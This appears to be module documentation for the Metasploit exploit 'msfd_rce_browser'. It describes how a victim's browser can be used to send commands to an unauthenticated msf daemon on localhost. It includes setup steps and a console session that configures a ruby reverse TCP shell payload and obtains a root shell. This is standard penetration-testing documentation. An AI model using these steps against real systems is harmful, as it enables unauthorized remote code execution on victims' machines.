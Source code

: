 ## Description

This module connects to the Metasploit msf daemon and uses the ruby interpreter
to achieve a shell. This module can be used when the vulnerable service is only
listening on localhost and the attacker has not achieved a foothold on the
machine. To achieve code execution, the data is sent from the victim's browser.
To achieve this, the victim must visit the attacker's web site.

## Vulnerable Application

[Metasploit](https://github.com/rapid7/metasploit-framework) has a legacy method
of providing remote access. The msf daemon provides no means of authentication
and is therefore vulnerable against an attacker who has IP access to the daemon.
In those cases where the daemon is listening on localhost, we take advantage of
the fact that the victim's web browser has IP access to the daemon.

Because the msfconsole-program is line-based, it is possible to successfully
send commands through the HTTP-protocol. This module takes advantage of this by
placing the msfconsole-command in the POST-data of a HTTP-request. Since these
POST-requests are considered safe to send cross-domain, it is possible to send
them from the attacker's web application and to localhost using the victim's
browser.

To start the vulnerable service, run:

```
$ msfd -f -q
```

This module has been tested on the following targets:

* Metasploit 5.0.0 on Ubuntu 16.04 (using Firefox and Chrome)
* Metasploit 4.16.51 on Windows 7 (using IE, exploitation failed in Firefox and
  Chrome)

***NB!*** Exploitation on Windows had a higher degree of success, when the
quiet-flag was sent to the msf daemon. On Linux, it made no difference.

Source code and installers:

  * [Source Code Repository](https://github.com/rapid7/metasploit-framework)
  * [Installers](https://github.com/rapid7/metasploit-framework/wiki/Downloads-by-Version)

## Verification Steps

1. Start `msfconsole`
2. Do: `use exploit/multi/browser/msfd_rce_browser`
3. Do: `set REMOTE_IP [IP]` (default: `127.0.0.1`)
4. Do: `set RPORT [PORT]` (default: `55554`)
7. Do: `set PAYLOAD [PAYLOAD]`
8. Do: `exploit`
9. Do: Visit the listed URL from the victim's machine
9. You should get a shell


## Options

Options unique for this module is described below.

  **REMOTE_IP**

  IP to target when running inside the victim's browser.

  **REMOTE_PORT**

  Remote port


## Scenarios

### Through the victim's browser

 ```
  msf5 > use exploit/multi/browser/msfd_rce_browser
  msf5 exploit(multi/browser/msfd_rce_browser) > set payload ruby/shell_reverse_tcp
  payload => ruby/shell_reverse_tcp
  msf5 exploit(multi/browser/msfd_rce_browser) > set lhost 192.168.0.17
  lhost => 192.168.0.17
  msf5 exploit(multi/browser/msfd_rce_browser) > set lport 443
  lport => 443
  msf5 exploit(multi/browser/msfd_rce_browser) > exploit 
  [*] Exploit running as background job 0.

  [-] Handler failed to bind to 192.168.0.17:443:-  -
  [*] Started reverse TCP handler on 0.0.0.0:443 
  msf5 exploit(multi/browser/msfd_rce_browser) > [*] Using URL:
  http://0.0.0.0:8080/J5ras6oYftFWW4
  [*] Local IP: http://172.17.0.2:8080/J5ras6oYftFWW4
  [*] Server started.
  ```

Visit the web site listed in a browser on the victim's machine and you should
get the output below.

 ```
  [*] 192.168.0.17     msfd_rce_browser - 192.168.0.17     msfd_rce_browser
  Sending HTML...
  [*] Command shell session 4 opened (172.17.0.2:443 -> 192.168.0.17:48376) at 2018-04-22 19:15:07 +0000
  id
  [*] exec: id

  uid=0(root) gid=0(root) groups=0(root)
 ```
